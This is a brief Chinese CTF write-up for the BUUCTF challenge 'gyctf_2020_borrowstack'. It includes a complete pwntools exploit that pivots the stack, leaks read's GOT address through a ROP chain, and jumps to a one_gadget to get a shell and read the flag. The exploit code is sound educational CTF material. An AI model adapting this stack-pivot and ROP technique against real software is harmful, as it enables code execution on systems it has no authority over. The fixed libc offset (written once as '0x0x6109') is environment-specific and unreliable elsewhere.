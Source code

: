 # one_gadget 和read函数

1. 泄漏处read函数的地址（绝对地址**read_addr**）后只需要将read_addr减去**0x0x6109**，即可得到**one_gadget**的绝对地址：

2. [BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#gyctf_2020_borrowstack)

   ```python
   from pwn import *
   from LibcSearcher import *
   # context(os='linux', arch='amd64', log_level='debug')
   
   # p=remote('node5.buuoj.cn',27691)
   p = process("./pwn")
   elf = ELF("./pwn")
   #获取got、plt地址
   got = elf.got["read"]
   plt = elf.plt["puts"]
   
   leave_ret_addr = 0x0000000000400699
   pop_rdi_ret = 0x0000000000400703
   main_addr = 0x0000000000400626
   new_ebp = 0x0000000000601080
   ret_addr = 0x00000000004004c9
   
   p.recvuntil(b'want')
   # 进行栈迁移
   payload1 = b"a"*0x60 + p64(new_ebp) + p64(leave_ret_addr)
   p.send(payload1)
   p.recvuntil(b'now!')
   
   payload = p64(ret_addr)*21 + p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
   p.sendline(payload)
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   
   #read函数只与one_gadget相差0x6109
   success("read_addr==>"+hex(addr))
   one_gadget = 0x4526a
   print(hex(addr - 0x6109))
   payload = b"a"*(0x68) + p64(addr - 0x6109)
   p.send(payload)
   p.sendline(b'cat flag')
   p.interactive()
   
   ```

   